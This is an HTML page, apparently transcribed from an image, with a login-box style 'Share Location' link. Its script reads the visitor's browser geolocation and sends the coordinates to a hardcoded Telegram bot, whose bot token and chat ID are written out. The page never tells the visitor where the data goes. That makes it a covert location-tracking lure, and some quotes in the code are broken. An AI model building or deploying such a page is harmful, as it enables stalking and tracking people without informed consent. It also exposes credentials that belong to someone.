 <!DOCTYPE html>
<html>
<head>
  <title>@rmsup</title>
  <link rel="stylesheet" href="styles.css">
</head>
<body>
  <script>
    function sendLocation() {
      navigator.geolocation.getCurrentPosition(function(position) {
        var latitude = position.coords.latitude;
        var longitude = position.coords.longitude;

        var botToken = '6869870407:AAFt9dfffPo16LefUroHYeZV64wrm4fQyPM;
        var chatId = '5641303137;

        var url = 'https://api.telegram.org/bot' + botToken + '/sendLocation';
        var params = {
          chat_id: chatId,
          latitude: latitude,
          longitude: longitude
        };

        var xhr = new XMLHttpRequest();
        xhr.open('POST', url, true);
        xhr.setRequestHeader('Content-Type', 'application/json');
        xhr.send(JSON.stringify(params));
      });
    }
  </script>
  <div class="login-box">
    <form>
      <a href="#" onclick="sendLocation()">Share Location
        <span></span>
        <span></span>
        <span></span>
        <span></span>
      </a>
    </form>
  </div>
</body>
</html>
